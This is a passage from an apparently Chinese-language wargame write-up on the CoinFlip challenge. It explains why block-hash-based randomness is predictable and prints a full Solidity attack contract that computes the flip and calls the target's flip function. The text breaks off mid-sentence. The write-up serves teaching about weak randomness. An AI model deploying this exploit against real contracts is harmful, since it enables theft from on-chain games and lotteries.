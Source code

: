 取上一个区块的哈希值 blockhash(block.number - 1)；

除以 FACTOR这里是57896044618658097711785492504343953926634992332820282019728792003956564819968

得到的结果要么是 0，要么是 1；

如果是 1，则答案是 true，否则是 false。

这里我们能对其进行预测的原因是：

在攻击合约 `attack()` 中

```solidity
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = (coinFlip == 1);

    // 底层调用目标合约的 flip(bool) 函数
    (bool success, bytes memory data) = target.call(
        abi.encodeWithSignature("flip(bool)", side)
    );
```

这段逻辑与目标合约一模一样，而且发生在同一交易、同一 EVM 上下文中；

所以绝无“算错/不同步”的可能（除非在同块内第二次调用，触发 `lastHash` 检查）。

每个新区块都能得到确定的 side，于是可以连续 10 次全中（10 个区块，10 次交易）

攻击脚本如下：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract AttackCoinFlip {
    address public target;
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _target) {
        target = _target;
    }

    function attack() external {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = (coinFlip == 1);

        (bool success, bytes memory data) = target.call(
            abi.encodeWithSignature("flip(bool)", side)
        );
    }
}
```

但是需要注意
